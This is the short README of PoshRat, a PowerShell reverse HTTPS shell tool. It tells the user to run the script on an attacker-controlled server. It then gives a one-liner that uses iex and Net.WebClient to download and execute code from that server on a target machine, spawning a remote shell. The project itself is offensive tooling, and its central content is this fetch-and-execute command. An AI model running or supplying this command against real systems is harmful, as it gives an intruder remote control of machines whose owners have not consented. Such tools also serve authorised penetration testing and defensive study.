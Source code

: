 PoshRat
=======

PowerShell Reverse HTTPs Shell

1. Invoke PoshRat.ps1 On An Atacker Controlled Server
2. To Spawn The Reverse Shell Run
   iex (New-Object Net.WebClient).DownloadString("http://[ServerIP/connect")

Created By Casey Smith @subTee
